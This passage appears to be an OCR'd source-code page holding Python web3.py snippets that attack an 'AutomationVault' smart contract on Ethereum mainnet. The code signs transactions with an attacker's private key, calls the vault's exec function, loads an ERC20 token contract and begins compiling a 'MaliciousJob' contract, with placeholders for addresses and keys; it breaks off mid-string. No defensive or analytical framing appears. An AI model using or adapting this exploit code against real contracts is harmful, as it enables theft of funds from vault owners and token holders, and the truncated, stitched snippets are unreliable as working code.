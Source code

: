 ```python
tx = automation_vault_contract.functions.exec(attacker_address, exec_data, []).buildTransaction({
    'chainId': 1,  # Change to appropriate network chain ID (e.g., 1 for Ethereum mainnet)
    'gas': gas,
    'gasPrice': w3.eth.gas_price,
    'nonce': w3.eth.getTransactionCount(attacker_address),
})

signed_tx = w3.eth.account.signTransaction(tx, attacker_private_key)

# Send the transaction and wait for the receipt
tx_hash = w3.eth.sendRawTransaction(signed_tx.rawTransaction)
receipt = w3.eth.waitForTransactionReceipt(tx_hash)

print(f'Transaction hash: {tx_hash.hex()}')
print(f'Transaction receipt: {receipt}')

```
You can also try this
```bash
pip install web3
```
```bash 
pip install solcx
```
```python
from web3 import Web3, HTTPProvider
from solcx import compile_source
from web3.contract import Contract
from web3.middleware import geth_poa_middleware
import json

# Connect to an Ethereum node
node_url = "https://mainnet.infura.io/v3/YOUR_INFURA_PROJECT_ID"  # Use your Infura project ID
web3 = Web3(HTTPProvider(node_url))

# Add POA middleware if using PoA chain
web3.middleware_onion.inject(geth_poa_middleware, layer=0)

# Check connection to the node
if not web3.isConnected():
    print("Failed to connect to the Ethereum node.")
    exit(1)

# Attacker's private key and account
attacker_private_key = "0xYOUR_PRIVATE_KEY"  # Replace with the attacker's private key
attacker_account = web3.eth.account.privateKeyToAccount(attacker_private_key)

# Load the AutomationVault contract ABI and address
with open("AutomationVault_abi.json", "r") as f:
    vault_abi = json.load(f)

vault_address = "0xAUTOMATION_VAULT_ADDRESS"  # Replace with the AutomationVault contract address
vault_contract = web3.eth.contract(address=vault_address, abi=vault_abi)

# Load the ERC20 token contract ABI and address
with open("ERC20Token_abi.json", "r") as f:
    token_abi = json.load(f)

token_address = "0xTOKEN_ADDRESS"  # Replace with the ERC20 token contract address
token_contract = web3.eth.contract(address=token_address, abi=token_abi)

# Load and compile the MaliciousJob contract
malicious_job_source = """
// SPDX-License-Identifier: MIT
```